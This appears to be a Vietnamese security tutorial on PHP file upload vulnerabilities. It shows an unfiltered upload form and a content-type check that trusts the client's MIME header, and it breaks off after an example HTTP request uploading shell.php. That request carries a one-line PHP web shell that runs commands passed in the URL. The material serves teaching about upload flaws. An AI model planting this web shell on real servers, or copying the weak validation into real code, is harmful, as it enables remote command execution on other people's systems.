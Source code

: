 File upload thường gồm 2 việc: cho người dùng upload file và hiển thị file cho người dùng. Cả 2 công việc này đều có thể bị tấn công.

### Đầu tiên với đoạn mã upload file đơn giản: 
```
<form name="upload" action="upload1.php" method="POST" ENCTYPE="multipart/formdata">
Select the file to upload: <input type="file" name="userfile">
<input type="submit" name="upload" value="upload">
</form>
```

Đoạn mã này cho người dùng upload lên mọi file mà ko có sự ngăn chặn nào. 

### Content-type verification
```
<?php
if($_FILES['userfile']['type'] != "image/gif") {
    echo "Sorry, we only allow uploading GIF images";
    exit;
}
$uploaddir = 'uploads/';
$uploadfile = $uploaddir . basename($_FILES['userfile']['name']);
if (move_uploaded_file($_FILES['userfile']['tmp_name'], $uploadfile)) {
    echo "File is valid, and was successfully uploaded.\n";
} else {
    echo "File uploading failed.\n";
}
?>
```
Trong trường hợp này, nếu kẻ tấn công chỉ cố tải shell.php lên, ứng dụng sẽ kiểm tra loại MIME trong yêu cầu tải lên và từ chối tệp:
#### Request
POST /upload2.php HTTP/1.1 \
TE: deflate,gzip;q=0.3 \
Connection: TE, close \
Host: localhost \
User-Agent: libwww-perl/5.803 \
Content-Type: multipart/form-data; boundary=xYzZY \
Content-Length: 156 \
--xYzZY \
Content-Disposition: form-data; name="userfile"; filename="shell.php" \
<mark>Content-Type: text/plain</mark>
```
<?php 
system($_GET['command']);
?>
```
--xYzZY--

#### Response:

HTTP/1.1 200 OK  \
Date: Thu, 31 May 2007 13:54:01 GMT \
Server: Apache \
X-Powered-By: PHP/4.4.4-pl6-gentoo \
Content-Length: 41 \
Connection: close \
Content-Type: text/html 

